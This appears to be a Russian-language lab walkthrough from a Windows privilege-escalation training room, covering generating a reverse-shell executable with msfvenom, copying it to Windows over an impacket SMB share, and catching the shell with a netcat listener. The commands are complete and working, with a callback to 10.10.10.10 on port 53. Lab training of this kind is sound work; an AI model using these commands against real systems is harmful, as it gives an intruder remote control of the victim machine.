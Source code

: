 # Задача 2: Генерация обратной оболочки с помощью msfvenom 💻🔄

## Описание
В этой задаче вам нужно сгенерировать исполняемый файл обратной оболочки (reverse.exe) на Kali с использованием **msfvenom**. Обязательно обновите IP-адрес LHOST в соответствии с вашей конфигурацией. 🌐

---

### Команда для генерации оболочки: msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f exe -o reverse.exe

---

## Передача файла reverse.exe на Windows
После создания файла, вам нужно передать `reverse.exe` в директорию `C:\PrivEsc` на Windows. Существует множество способов сделать это, однако самым простым является запуск SMB-сервера на Kali в той же директории, где находится файл, а затем использование стандартной команды копирования в Windows.

---

### Шаги для передачи файла:
1. На Kali, в той же директории, где находится **reverse.exe**: **sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .**
2. На Windows (обновите IP-адрес на IP вашего Kali): **copy \10.10.10.10\kali\reverse.exe C:\PrivEsc\reverse.exe**

---

## Тестирование обратной оболочки 🔍
1. Теперь настройте слушателя **Netcat** на Kali, чтобы протестировать обратную оболочку: **sudo nc -nvlp 53**
2. После этого выполните **reverse.exe** на Windows и поймайте оболочку: **C:\PrivEsc\reverse.exe**

---

### Важно! ⚠️
Исполняемый файл **reverse.exe** будет использоваться во многих задачах в этой комнате, поэтому не удаляйте его! 🗑️
